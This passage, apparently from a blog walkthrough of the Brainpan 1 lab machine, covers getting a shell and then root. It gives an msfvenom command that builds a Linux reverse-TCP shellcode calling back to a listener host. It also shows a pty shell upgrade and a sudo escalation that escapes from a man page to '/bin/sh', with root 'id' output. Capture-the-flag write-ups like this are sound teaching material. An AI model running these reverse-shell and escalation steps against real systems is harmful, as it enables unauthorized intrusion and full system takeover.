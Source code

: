 Now that we have the exploit figured out, replace the shellcode with linux one (`msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.0.66 LPORT=3333 -f py -b '\x00'`) and re-run it on original Brainpan machine (**192.168.0.110**).  

<img src="/img/blog/brainpan1/brainpan1-09.png">

`python -c 'import pty; pty.spawn("/bin/sh")'` = `A TTY shell for easier interaction`

Reverse shell has been achieved ;) !

***

# Privilege escalation

Just do `sudo -l`:

```console
$ sudo -l

Matching Defaults entries for puck on this host:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User puck may run the following commands on this host:
    (root) NOPASSWD: /home/anansi/bin/anansi_util

```
`anansi_util` allows running *manual* with *sudo* which is a dangerous combination because it can be easily chained together for easy root escalation. Open up a random man page (`man whoami` in my case) and execute a shell by typing `!/bin/sh`.

```console
sudo /home/anansi/bin/anansi_util manual printf
No manual entry for manual
WARNING: terminal is not fully functional
-  (press RETURN)!/bin/sh
# id && whoami
id && whoami
uid=0(root) gid=0(root) groups=0(root)
root
```
